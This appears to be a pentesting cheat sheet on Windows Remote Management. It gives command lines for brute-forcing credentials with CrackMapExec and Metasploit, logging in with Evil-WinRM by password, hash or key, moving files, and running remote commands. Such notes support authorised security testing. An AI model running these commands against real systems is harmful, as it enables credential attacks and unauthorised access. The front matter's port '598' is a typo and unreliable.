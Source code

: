 ```yaml
---
title: Windows Remote Management (WinRM) Pentesting
desc: The Microsoft implementation of WS-Management Protocol which provides a common way for systems to access and exchange management information across an IT infrastructure. WinRM HTTP uses port 5985, and WinRM HTTPS uses port 5986. Default port is 598, 5986.
tags: [598, 5985, 5986, CrackMapExec, Windows, WinRM]
alts: [Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## Enumeration

1. **Brute Force Credentials**

    1. **Use CrackMapExec**

        ```sh
        cd crackmapexec
        poetry run crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt
        ```

    2. **Use Metasploit**

        ```sh
        msfconsole
        msf > use auxiliary/scanner/winrm/winrm_login
        ```

<br />

## Connect and Exploit

1. **Use Evil-WinRM**

    **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm){:target="_blank"}{:rel="noopener"}** is a Windows Remote Management shell for pentesting.

    1. **Connect**

        ```powershell
        evil-winrm -i <target-ip> -P 5986 -u username -p password
        
        # Pass The Hash (-H)
        evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

        # PowerShell Local Path (-s)
        evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

        # SSL enabled (-S)
        evil-winrm -i <target-ip> -u username -p password -S
        ```

        If you have private key and public key, you can use them for authentication.

        ```sh
        # -S: SSL
        # -k: private key
        # -c: public key
        evil-winrm -i <target-ip> -S -k private.key -c public.key
        ```

    2. **File Transfering**

        After connecting, you can use a lot of useful commands to exploit.

        ```powershell
        # Upload a local file to Windows machine
        PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

        # Download a file to local
        PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
        ```

2. **Use CrackMapExec**

    **[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec){:target="_blank"}{:rel="noopener"}** is a swiss army knife for pentesting networks.  
    The official docs says that it's recommended to use it via **Poetry** which is a Python package manager.  

    First off, move to the directory in which the CrackMapExec installed and run **poetry install**.

    ```sh
    cd crackmapexec
    poetry install
    ```

    Then execute with **poetry run**.

    ```sh
    # Login and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
    # Login and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

    # Pass the Hash and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
    # Pass the Hash and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
    ```